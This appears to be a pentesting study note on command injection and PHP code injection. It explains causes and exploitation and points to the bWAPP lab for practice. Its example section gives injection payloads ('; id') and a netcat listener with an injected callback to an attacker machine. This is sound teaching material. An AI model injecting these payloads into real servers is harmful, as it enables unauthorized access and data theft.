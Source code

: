 # 6.3 Command Injection

## Command Injection

Command Injection vulnerabilties in the context of web app pt occur when an attacker can manipulate input fields of a web app in a way that allow them to execute OS commands on the underlying server.

This vulnerability is a serious security risk because it can lead to unauthorized access, data theft, and full compromise of the web server.

Main causes of this vulnerability are:

* User Input Handling: web app often take user input through forms, query parameters, etc.
* Lack of Input Sanitazion: insecurely coded app may fail to properly validate, sanitize or escape user inputs&#x20;
* Injection Points: attacker identify injection points such as input fileds or URL query parameters, where they can insert malicious commands

### Exploitation

* Attackers can exploit it crafting malicious input that includes special chars like ; | \ and other shell metachars to break out of the intended input context and inject their commands.
* When the app processes the attacker's input, it constructs a shell command using the milicious input.
* The server, believing the command to be legitimate, executes it in the underlyng OS.

Then, attackers can execute arbitrary commands with the privileges of the web server process, potentially leading to unauthorized data access and exfiltrate them, code execution or sistem compromise, manipulating the server, installing malware or create backdoors for future access.

### Example

In an upload form we can upload a file and add at the end of URL this payload:

`; id` to display the id and information of user that runs on the machine

If the web app don't respond it can't be vulnerable or can have a command injection blind, than we can try to take us in listening mode with netcat: `nc -nvlp 4444` and and use `;nc <attacker_machine> 4444` and see if we can reach out our attacker machine from web app.

### PHP  Code Injection

PHP Code Injection also know as PHP Code Execution vulnerability occur when an attacker can inject and execute arbitrary PHP code within a web app.

It's more similat to generic command injection but regards only PHP code. Of course, they allow attackers to gain authorized access to the server, execute malicious actions and potentially compromise web app.

#### Practise

There's a dedicated module on BWapp vulnerable web app.
